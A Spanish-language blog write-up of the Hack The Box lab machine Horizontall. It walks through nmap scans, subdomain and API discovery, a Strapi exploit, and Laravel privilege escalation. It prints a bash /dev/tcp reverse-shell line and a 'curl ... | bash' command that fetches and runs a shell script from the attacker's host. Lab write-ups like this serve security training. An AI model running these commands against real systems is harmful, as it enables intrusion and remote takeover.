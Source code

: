 ```yaml
---
layout: post
title: "Write Up Horizontall."
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Genin,Linux,HTB,Strapi,Web,Vulnerability-Assessment,Source-Code-Analysis,Outdated-Software,CMS,Laravel,NodeJS,API,Javascript,Reconnaissance,Web-Site-Structure-Discovery,RCE,OSCP,eJPTv2]
image:
  path: /assets/img/horizontal/hori.png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
sudo nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.11.105 -oG allports
```

![list](/assets/img/horizontal/Parrot-2022-12-19-14-03-55.png){:.lead width="800" height="100" loading="lazy"}


***

### Services and Versions


```bash
nmap -sCV -p21,80 10.10.11.105 -oN target -Pn
```


![list](/assets/img/horizontal/Parrot-2022-12-19-14-04-49.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis and Explotation


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.e ispeccionamos la web, ademas de las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb, como encontramos version vulnerable del srvicio ftp con serasploit tambien vamos a investigar ese vector .


![list](/assets/img/horizontal/Parrot-2022-12-19-14-07-23.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Whatweb nos  esta aplicando un reirerct al dominio horizontall.htb por lo que lo ingresamos al `/etc/hosts`.


Tambien podemos fuzzear los directorioo  para ver que informacion nos entrega, que la web de horizontall nada funciona.


![list](/assets/img/horizontal/Parrot-2022-12-19-14-30-41.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
En contramos unos directorips `/js` que vamos a grepearmanualmente de la siguiente forma.


```bash
curl -s -X GET "http://horizontall.htb/ | htmlq -p | batcat -l html
```

{:.note}
Esto nod devuelve dos ruta `/js/chunk-vendors.0e02b89e.js` y `/js/app.c68eb462.js` los cuales vamos a investigar pra ver que informacion podemos recolectar.


Entre tanta maraña d informcion encontramos un subdominio `api-prod.horizontal.htb/reviews` en cual pegarmos en el `/etc/hosts`


![list](/assets/img/horizontal/Parrot-2022-12-19-14-38-55.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
En contramos los nombres de tres usuarios que son `wail`,`doe`y`john`.


Fuzzeamos otra vez la ruta de api y cada rita interna que tenga esa tambien lo que nos da como resutado que encontramos un login que funciona con gestor de  contenido llamado strapi que vamos a buscar vulnerabiliudades con searchsploit.


![list](/assets/img/horizontal/Parrot-2022-12-19-15-08-51.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nos decargamos el script y y nos da un a shell pero que nos vamos acambiar a una propia que nos vamos a poner ala eschucha en el puerto 443 y nos vamos a crear una archivo `shell.html` que contiene el comado para mandarnos una [reverse-shell] `bash -i >& /dev/tcp/10.10.10.14 0>&1` y lo ejecutamos de la siguiente manera deuna ves se  ejecuta ya que esta con la tuberia y el comado bash. 


![list](/assets/img/horizontal/Parrot-2022-12-19-15-22-40.png){:.lead width="800" height="100" loading="lazy"}


```bash
curl http://10.10.10.14/shell.html | bash
```


[reverse-shell]:(https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


{:.note}
Podemos buscar la flag el usuario e bajos privileguios en el directorio el usuario `strapi`.


![list](/assets/img/horizontal/Parrot-2022-12-19-15-26-11.png){:.lead width="800" height="100" loading="lazy"}


***

## Escalacion de privilegios 


Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find o tareas crond o tareas que esperen ejecucion.


Como no encontramos nada vemos los puetos que estan abiertos internamente y esta el 8000 si vemos con curl la version es Laravel v8 (PHP v7.4.18).


![list](/assets/img/horizontal/Parrot-2022-12-19-15-54-05.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nos lo traemos con [chisel] y buscamos en exploit para ejecutarlo.


De la misma manera que antes solo que en ves id nos mandamos una reverse-shell y ya somos root.


![list](/assets/img/horizontal/Parrot-2022-12-19-15-54-05.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La flag esta en el ecritorio del usuario priviligiado.

***
```bash
🎉 Felicitaciones ya has comprometido Horizontall de Hack The Box. 🎉
```
{:.centered}

***

Back to [Certification eJPTv2](2023-07-03-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}

***

Back to [Certification eWPT](2023-07-04-Road-to-eWPT.md){:.heading.flip-title}
{:.read-more}